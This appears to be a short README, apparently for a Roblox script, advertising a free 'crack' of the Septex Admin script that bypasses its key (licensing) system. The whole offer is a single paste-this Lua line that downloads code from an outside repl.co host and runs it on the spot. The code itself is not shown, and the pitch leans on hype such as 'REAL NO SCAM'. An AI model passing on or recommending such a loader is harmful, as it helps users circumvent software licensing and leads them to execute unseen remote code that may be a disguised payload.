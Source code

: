 
# Septex Free Version (REAL NO SCAM PUNJABI OMG!!!)
![lol](https://i.imgflip.com/3bovka.png?a464880)\
I'm sure you read the description correctly. That's right, a **Septex Admin crack!**
No more annoying key system, just run the script and it will bypass the key system flawlessly.

```lua
loadstring(game:HttpGet("crackserver.mrelxs.repl.co/septex/client", true))()
```
Enjoy your new free admin script. If you want to check the code of this, see crackserver.mrelxs.repl.co/septex/client
